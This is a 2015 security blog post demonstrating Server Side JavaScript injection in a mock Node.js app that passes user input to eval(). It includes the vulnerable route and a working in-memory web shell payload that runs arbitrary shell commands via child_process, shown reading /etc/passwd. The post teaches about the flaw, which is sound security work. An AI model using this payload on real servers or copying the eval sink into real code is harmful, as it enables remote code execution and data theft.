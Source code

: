 ```yaml
---
layout: post
title:  "SSJS Web Shell Injection"
date:   2015-01-31 12:02:03
categories: node
---
```


I've recently become interested in real world examples of vulnerabilities in Node.js applications, which allow `Server Side Javascript Injection`. One advisory I came across was <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7205">CVE-2014-7205</a> discovered by Jarda Kotěšovec in a <a href="https://github.com/hapijs/bassmaster/commit/b751602d8cb7194ee62a61e085069679525138c4">Basmaster plugin</a> which allows arbitrary Javascript injection.

I decided to mock up a simple example of user input passed to an eval() execution sink, to demonstrate an injection of a simple web shell into the server. This web shell will only exist within the current node.js process, and will not be written to disk.

This demo application will only allow a single user input selection to keep things simple:
![Demo app](/assets/SSJS_ws1.png)

Vulnerable code (user input passed to an eval execution sink):
{% highlight javascript %}
router.post('/demo1', function(req, res) {
  var year = eval("year = (" + req.body.year + ")");
  var date = new Date();

  var futureAge = 2050 - year;

  res.render('demo1',
    {
      title: 'Future Age',
      output: futureAge
    });
});
{% endhighlight %}

In this example res.write('SSJS Injection') is injected, and the server will return that string in the page response:
![Demo app](/assets/SSJS_ws2.png)

So we can perform arbitrary SSJS injection on this location. What about injecting a web shell that will start up after 5 seconds, listening on TCP/8000?
{% highlight javascript %}
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        });
    }).listen(8000);
}, 5000)
{% endhighlight %}

One line web shell:
{% highlight javascript %}
setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)
{% endhighlight %}

Because we are inserting code which will be eval'd by the application, the web shell will not be written to disk, and execution will be performed from the existing node process. 

Injection of the web shell (application continues to respond normally):
![Demo app](/assets/SSJS_ws3.png)

Execution of `cat /etc/passwd` using the web shell:
![Demo app](/assets/SSJS_ws4.png)

Execution of `ls -la /etc`:
![Demo app](/assets/SSJS_ws5.png)

This is a really simple example of an application with a SSJS injection vulnerability. Another thing to note is that tools to identify web application vulnerabilities may not have support to detect this vulnerability. At the time of this writing, Burp Suite v1.6.10 did not identify a SSJS injection vulnerability in the demo application.

- ![s1gnalCha0s](https://craigarendt.com)